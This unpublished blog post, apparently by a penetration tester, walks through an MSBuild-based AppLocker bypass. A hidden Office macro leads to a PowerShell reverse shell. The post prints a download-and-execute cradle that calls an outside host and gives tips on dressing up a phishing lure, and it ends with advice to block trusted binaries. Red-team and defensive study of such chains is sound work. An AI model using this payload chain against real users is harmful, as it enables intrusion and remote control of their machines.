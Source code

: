 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: false
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and despite simulated phishing campaigns and user awareness training there can never be complete assurance against credential divulgence or execution of malicious code.  So it is critically important that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C# and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

This executes the second (and final) stage of the payload via PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

Shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

The WindowType parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for simulated phishing campaigns ;) . I find the "Document created in newer/older Office version" lures especially convincing. John has put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

FailedDeliveryNotification.docx:



Now that our "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, the powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner.

![rules]({{ site.url }}/images/shell.png){: .center-image }

We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode.

We can see the danger of "misplaced trust" binaries such as MSBuild. Companies should block their use unless explicitely required for certain users such as developers. Oddvar Moe maintains an excellent [list](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which makes an excellent starting point of the Windows binaries that IT departments should consider blocking.

Mitigations

